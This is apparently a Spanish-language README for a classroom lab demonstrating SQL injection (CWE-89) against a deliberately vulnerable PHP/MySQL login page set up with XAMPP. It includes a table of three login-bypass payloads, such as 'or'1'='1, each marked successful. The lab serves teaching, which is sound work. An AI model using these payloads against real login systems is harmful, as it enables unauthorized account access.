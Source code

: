 
# SQL Injection

CWE-89: neutralización incorrecta de elementos especiales utilizados en un comando SQL ('inyección SQL').
Una simulación de un sitio de login, donde se inyectará comandos SQL.

## Características

- Se necesita de un sistema de gestión de bases de datos MySQL, el servidor web Apache y los intérpretes para lenguajes de script PHP, en este caso se ocupo XAMPP.
- Meter la carpeta `CW89` en la carpeta que corresponda para cargar el web login.
- Y cargar la base de datos con el archivo  `database.sql` solo es importar la database y todo por default en phpmyadmin.


## Injection 

Una vez probado el sitio validando los usuarios del database, probar los comandos para los siguientes casos. En este caso se toma el primer usuario:


##### Comandos SQL 


| Usuario | Contraseña     | Estado                      |
| :-------- | :------- | :-------------------------------- |
| `'or'1'='1`      | `'or'1'='1` | Exitoso |
| `Efren`      | `' OR usuario='Efren' -- ` |Exitoso |
| `Efren' -- `      | Lo que sea | Exitoso |
